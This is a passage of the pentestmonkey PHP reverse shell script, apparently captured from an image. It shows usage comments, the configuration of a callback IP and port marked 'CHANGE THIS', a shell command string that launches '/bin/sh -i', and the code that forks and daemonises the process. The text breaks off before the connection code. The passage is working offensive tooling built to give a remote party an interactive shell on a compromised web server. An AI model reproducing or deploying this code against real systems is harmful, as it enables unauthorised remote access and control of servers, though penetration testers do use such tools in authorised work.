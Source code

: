 ```php
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  Theside are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//
```